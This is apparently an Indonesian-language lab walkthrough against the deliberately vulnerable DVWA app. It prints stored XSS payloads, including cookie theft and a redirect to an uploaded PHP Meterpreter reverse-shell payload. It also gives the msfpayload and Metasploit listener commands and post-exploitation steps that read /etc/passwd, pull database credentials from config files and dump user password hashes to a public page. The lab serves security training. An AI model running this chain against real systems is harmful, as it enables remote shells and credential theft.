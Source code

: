 ## LESSON 9

Inti dari Lesson 9 adalah mendapatkan 7 hal, yaitu:
1. Test **Basic Cross Site Scripting (XSS)** attack
2. Test **Iframe Cross Site Scripting (XSS)** attack
3. Test **Cookie Cross Site Scripting (XSS)** attack
4. Membuat **php/meterpreter/reverse_tcp payload**
5. Menjalankan **php/meterpreter/reverse_tcp listener**
6. Mengunggah **PHP paload** lewat **DVWA Upload Screen**
7. Test **PHP Payload** menggunakan **Cross Site Scripting (XSS) attack**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Fix Stored Cross Site Scripting (XSS)**
1. Masukkan command

```
cd /var/www/html/dvwa/vulnerabilities/xss_s/
nano index.php
```

![SS 1](LESSON_9/1.png)

2. Mengganti panjang **mtxMessage** menjadi **250** di dalam **index.php**

![SS 2](LESSON_9/2.png)

**B. Enable Javascript**
1. Masuk ke **Firefox**, klik **Edit** -> **Preferences* -> **Content**, Centang **Block pop-up Windows** dan **Enable JavaScript**

![SS 3](LESSON_9/3.png)

**C. XSS Stored Basic Exploit Test**
1. Pilih menu **XSS Stored**, lalu isi **Name** dengan **Test 1** dan **Message** dengan

```
<script>alert("This is a XSS Exploit Test")</script>
```

![SS 4](LESSON_9/4.png)

Lalu

![SS 5](LESSON_9/5.png)

Hasil

![SS 6](LESSON_9/6.png)

**D. XSS Stored IFRAME Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**

![SS 7](LESSON_9/7.png)

Hasil

![SS 8](LESSON_9/8.png)

2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 2** dan **Message** dengan

```
<iframe src="http://www.cnn.com"></iframe>
```

![SS 9](LESSON_9/9.png)

Hasil

![SS 10](LESSON_9/10.png)

**E. XSS Stored COOKIE Exploit Test**
1. Pilih **Setup** lalu klik **Create / Reset Database Button**

![SS 11](LESSON_9/11.png)

2. Pilih **XSS Stored**, lalu isi **Name** dengan **Test 3** dan **Message** dengan

```
<script>alert(document.cookie)</script>
```

![SS 12](LESSON_9/12.png)

Hasil

![SS 13](LESSON_9/13.png)

**F. Build PHP msfpayload**
1. Masukkan command ini

```
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > FORUM_BUG.php
```

![SS 14](LESSON_9/14.png)

2. **Edit** **FORUM_BUG.php**

![SS 15](LESSON_9/15.png)

**G. Upload PHP Payload**
1. Pilih **Upload** dan pilih **FORUM_BUG.php**

![SS 16](LESSON_9/16.png)

Hasil

![SS 17](LESSON_9/17.png)

2. Jalankan **PHP Listener**

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```

![SS 18](LESSON_9/18.png)

**H. XSS Stored window.location Exploit Test**
1. Pilih **Setup** pada DVWA dan klik **Create / Reset Database Button**

2. Pilih **XSS Stored** pada DVWA dan isi **Name** dengan **Test 4** dan **Message** dengan

```
<script>window.location="http://192.168.1.103/dvwa/hackable/uploads/FORUM_BUG.php" </script>
```

![SS 19](LESSON_9/19.png)

Hasil

![SS 20](LESSON_9/20.png)

**NOTE**
- Terdapat icon **Connecting**

**I. View Metasploit Session**
1. **Backtrack** mendapatkan jawaban

![SS 21](LESSON_9/21.png)

2. Melakukan koneksi **Shell**

```
shell
tail /etc/passwd
```

![SS 22](LESSON_9/22.png)

3. Mencari **File Konfigurasi**

```
whoami
grep apache /etc/passwd
find /var/www/* -print | grep config
```

![SS 23](LESSON_9/23.png)

4. Exploit **File Konfigurasi**

```
grep "db_" /var/www/html/dvwa/config/config.inc.php
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select user,password from dvwa.users;" | mysql -uroot -psanisani
```

![SS 24](LESSON_9/24.png)

![SS 25](LESSON_9/25.png)

```
echo "<pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "</pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "<br>Your Name<br>" >> /var/www/html/dvwa/hackable/uploads/xss.html
date >> /var/www/html/dvwa/hackable/uploads/xss.html
```

![SS 26](LESSON_9/26.png)

**J. Testing**
1. Akses halaman
```
http://192.168.1.103/dvwa/hackable/uploads/xss.html
```

![SS 27](LESSON_9/27.png)

### Kesimpulan Lesson 9

Menggunakan **XSS** dapat mengetahui konten dari **Database**
